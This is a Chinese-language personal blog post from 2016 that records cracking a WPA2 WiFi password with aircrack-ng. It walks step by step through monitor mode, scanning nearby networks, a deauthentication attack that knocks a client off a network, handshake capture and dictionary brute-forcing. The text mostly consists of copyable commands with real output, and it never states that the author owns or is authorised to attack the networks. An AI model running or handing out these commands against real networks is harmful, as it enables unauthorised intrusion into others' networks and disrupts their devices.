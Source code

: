 ```yaml
---
layout: post
title:  "一次wifi破解记录"
categories: Hacker
tags:  wifi hacker
---
```


* content
{:toc}


## 0x00 前言

wifi破解工具有很多，比如wifite、aircrack、cowpatty、reaver等等，其中wifite是最傻瓜式的，但是个人尝试很久，没有破解成功一次，我就很好奇，是我的方式不对？cowpatty只管破解，因此还是要和air结合起来用。reaver破解的非常非常慢，一次要很久，但是一般都能搞定。这次先用aircrack。

## 0x01 准备

装逼要用全套的，特意买的3070的网卡，专用破解。

据说效果很好，但是我完全体会不到......

```
~$ lsusb
Bus 001 Device 014: ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter

~$ iwconfig
wlan1     IEEE 802.11bgn  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
```

## 0x02 获取握手包

### 1.激活监听模式

```
~$ airmon-ng start wlan1

PHY     Interface       Driver          Chipset
phy1    wlan1           rt2800usb       Ralink Technology, Corp. RT2870/RT3070

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)
                (mac80211 station mode vif disabled for [phy1]wlan1)
```

激活之后就发现名称变了，多了个mon，后面的mode是monitor。

```
~$ /home/dante# iwconfig

wlan1mon  IEEE 802.11bgn  Mode:Monitor  Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 2. 获取wifi信息
```
airodump-ng wlan0mon
下面就会显示出所有的wifi的链接信息。之前遗漏了这一块，暂时不补了。

```

### 3.抓包

破解的过程就是先抓包，抓到它的四次握手包，然后破解出密码。

```
airodump-ng --ivs -w filename -c wlan1mon
```

```
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 5C:63:BF:61:8B:C8  -58      639      761    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -66      330        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 C0:61:18:22:8B:2B  -65      620      547    0   6  54e. WPA2 CCMP   PSK  tunshi6
 64:09:80:4B:FC:2C  -71      223     2184    1   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 5C:63:BF:61:8B:C8  A4:C4:94:DB:10:1A  -44    0 - 2e     0      153  quan
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -84    0e- 1      0      558  tunshi6
 64:09:80:4B:FC:2C  AC:B5:7D:D1:00:62   -1    1e- 0      0      154
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94  -80    1e- 1      0     1369  su8-1
 ......
```

### 4.Deauth攻击

现在对脸上路由器64:09:80:4B:FC:2C上的设备64:09:80:4B:FC:2C进行攻击。

```
~$ aireplay-ng -0 10 -a 64:09:80:4B:FC:2C -c 64:09:80:4B:FC:2C4 wlan1mon --ignore-negative-one
13:18:29  Waiting for beacon frame (BSSID: 64:09:80:4B:FC:2C) on channel -1
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:32  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
```
可以看到，当发送攻击的时候，你攻击的那台设备就会丢包。

```
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -86    0e- 1      0      834  tunshi6
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94    0    0e- 1    373     3782  su8-1
```

发送了好几次攻击，过了二十多分钟才获取到握手包。可以看到下面获取到了handshake

```
  CH  4 ][ Elapsed: 25 mins ][ 2016-03-06 13:34 ][ WPA handshake: 64:09:80:4B:FC:2C                                                                
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                                                  
 5C:63:BF:61:8B:C8  -58     1973      909    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -64     1062        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 64:09:80:4B:FC:2C  -73      707     4411    0   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7
 ......
```
## 0x03 破解

破解就是用了爆破，完全是看字典！

```
aircrack-ng -w dic.txt test-0*.cap

```
然后选定需要破解的wifi即可开始进行破解。话说，运气不好的时候，打死也破解不出来.......

```
                           Aircrack-ng 1.2 rc3


                   [00:00:31] 12552 keys tested (381.79 k/s)


                       Current passphrase: 123bandit


      Master Key     : E3 A0 4F 08 DC D9 95 A5 87 48 02 B5 E1 93 C6 84
                       75 DD 23 E8 45 65 DD CA B8 89 53 96 75 E8 56 10

      Transient Key  : 11 24 33 3A FE 8F 51 E6 7D 7C C5 C2 BB 9B 0B 6F
                       4F 99 8C 5D 67 2B E2 6A 9C 34 2A 4A FB 1D 19 4F
                       84 C4 4C 8D 58 3B 22 70 C9 36 FD 98 D9 D6 E6 94
                       72 C9 AF 54 E1 B2 83 F1 EF 2A FA 0C 7D 59 3A 96

      EAPOL HMAC     : 80 84 40 03 84 DC E4 20 41 FF 74 C8 FB 1C DE EB
```

## 0xFF 总结

aircrack的确是神器，用好了破解个wifi不是太大问题的，不过也就弱密码比较好搞定一些，有些意识比较强的孩子密码设置的比较神奇，基本也没戏。

不过破解的方式也总是在提高，比如彩虹表、GPU这些各种高效的方式都可以使用，目前爆破能拿来玩一玩，剩余的慢慢研究。

**补充**

其实到头来都是在用工具，对里面的原理还没有太深的理解，下一步多了解一些使用方式后，着重自己动手写一些程序来操作。


******
2016-03-06 19:18:00 hnds
